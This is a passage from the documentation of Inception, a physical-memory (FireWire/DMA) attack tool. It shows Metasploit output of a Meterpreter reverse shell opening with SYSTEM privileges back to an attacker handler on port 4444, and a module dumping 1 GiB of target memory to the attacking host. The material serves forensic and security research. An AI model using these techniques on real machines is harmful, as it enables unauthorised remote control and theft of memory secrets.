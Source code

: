 In your MSF console, you should see something similar to this:

    msf exploit(handler) > [*] Sending stage (769536 bytes) to 172.16.78.200
    [*] Meterpreter session 1 opened (172.16.1.1:4444 -> 172.16.78.200:49178) at 2014-08-30 16:23:31 +0200

    msf exploit(handler) > sessions

    Active sessions
    ===============

      Id  Type                   Information                            Connection
      --  ----                   -----------                            ----------
      1   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ WIN-11FMQRBAMJ6  172.16.1.1:4444 -> 172.16.78.200:49178 (172.16.78.200)

    msf exploit(handler) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM


### Dump

The `dump` module facilitates dumping of memory from the target to the
attacking host.

#### Execution

    incept dump

     _|  _|      _|    _|_|_|  _|_|_|_|  _|_|_|    _|_|_|  _|    _|_|    _|      _|
     _|  _|_|    _|  _|        _|        _|    _|    _|    _|  _|    _|  _|_|    _|
     _|  _|  _|  _|  _|        _|_|_|    _|_|_|      _|    _|  _|    _|  _|  _|  _|
     _|  _|    _|_|  _|        _|        _|          _|    _|  _|    _|  _|    _|_|
     _|  _|      _|    _|_|_|  _|_|_|_|  _|          _|    _|    _|_|    _|      _|

    v.0.4.0 (C) Carsten Maartmann-Moe 2014
    Download: http://breaknenter.org/projects/inception | Twitter: @breaknenter

    [*] Dumping from 0x0 to 0x40000000, a total of 1 GiB:
    [==============================================================] 1024 MiB (100%)
    [*] Dumped memory to file memdump_0x0-0x40000000_20140830-174305.bin
    [*] BRRRRRRRAAAAAWWWWRWRRRMRMRMMRMRMMMMM!!!


Known bugs / caveats
--------------------

Please see the comments at the top and the [tool home page] [5].
   

Troubleshooting
---------------

Please see the [tool home page] [5].



[1]: http://inception.davepedu.com
[2]: https://wikileaks.org/spyfiles/files/0/293_GAMMA-201110-FinFireWire.pdf
[3]: http://freddie.witherden.org/tools/libforensic1394/
[4]: http://mxcl.github.io/homebrew/
[5]: http://www.breaknenter.org/projects/inception/
[6]: http://support.apple.com/en-us/HT202348
[7]: http://www.microsoft.com/en-us/download/details.aspx?id=41671
[8]: https://www.youtube.com/watch?v=0FoVmBOdbhg
[9]: http://www.w3schools.com/browsers/browsers_os.asp